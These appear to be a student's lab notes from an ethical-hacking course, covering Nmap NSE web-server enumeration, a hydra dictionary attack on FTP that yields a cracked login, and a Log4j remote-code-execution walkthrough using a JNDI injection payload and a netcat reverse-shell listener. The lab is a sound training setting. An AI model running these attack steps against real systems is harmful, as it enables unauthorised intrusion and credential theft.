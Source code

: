 
## Task 2: Enumerate Web Server Information using Nmap Scripting Engine (NSE)
1. open terminal as sudo
-  directories used by web servers and web applications, in the
	- ``**nmap -sV --script=http-enum www.goodshopping.com ``
- to discover the hostnames that resolve the targeted domain.
	- ``nmap --script hostmap-bfk -script-args hostmap-bfk.prefix=hostmap- www.goodshopping.com``
- HTTP trace on the targeted domain
	- ``nmap --script http-trace -d www.goodshopping.com``
- Web Application Firewall is configured on the target host or domain
	- ``nmap -p80 --script http-waf-detect www.goodshopping.com``

# Lab 2: Perform a Web Server Attack
## Task 1: Crack FTP Credentials using a Dictionary Attack
1.  to nmap on windows 11
	- `` nmap -p 21 10.10.1.11``
2. passoword craking of ftp using hardra
	- `` **hydra -L /home/attacker/Desktop/Wordlists/Usernames.txt -P /home/attacker/Desktop/Wordlists/Passwords.txt ftp://10.10.1.11``
	- after cracked login as 
	- `` fpt 10.10.1.11``
		- ``Martin:apple``
	- ``help`` for ftp commands that can be run
- done 

## Task 2: Gain Access to Target Web Server by Exploiting Log4j Vulnerability
1. open Ubuntu as sudo 
	- open terminal 
		- ``sudo apt- get update``
2. download docker 
	- ``apt-get install docker.io``
	-  ``cd log4j-shell-poc/ ``
3. to setup log4j vulnerable server
	- ``docker build -t log4j-shell-poc .``
4.  to start the vulnerable server.
	- ``docker run --network host log4j-shell-poc``
 5. run nmap on ubuntu 
	 -  `` nmap -sV -sC 10.10.1.9``
	 -  port **8080** is open and **Apache Tomcat/Coyote 1.1** server is running on the target system.
	 - ``**searchsploit -t Apache RCE** ``
	 - r **Apache Log4j 2 - Remote Command Execution (RCE)**
	  - open browser and go ``http:// 10.10.1.9:8080``
	  - `` cd  **log4j-shell-poc/**``	    
---xx----xxx--xx--for---attack--below-------
6. We need to extract JDK zip file which is already placed at **/home/attacker** location.
	- ``tar -xf jdk-8u202-linux-x64.tar.gz``
	 - ``mv jdk1.8.0_202 /usr/bin/``
7. we need to update the installed JDK path in the **poc.py** file.
	- `` cd log4j/ ``
	- ``pluma poc.py ``
	- in line **62**, replace  ``jdk1.8.0_20/bin/javac``with ``/usr/bin/jdk1.8.0_202/bin/javac``
	- in line **87** and replace  ``jdk1.8.0_20/bin/java`` with ``/usr/bin/jdk1.8.0_202/bin/java``
	-  line **99** and replace ``jdk1.8.0_20/bin/java`` with ``/usr/bin/jdk1.8.0_202/bin/java``
8. type  ``nc -lvp 9001``
	- ``python3 poc.py --userip 10.10.1.13 (localip) --webport 8000 --lport 9001``
	- login as user: ``${jndi:1dap://10.10.1.13:1389/a}`` and ``Password``
	- check netcat lis
- done 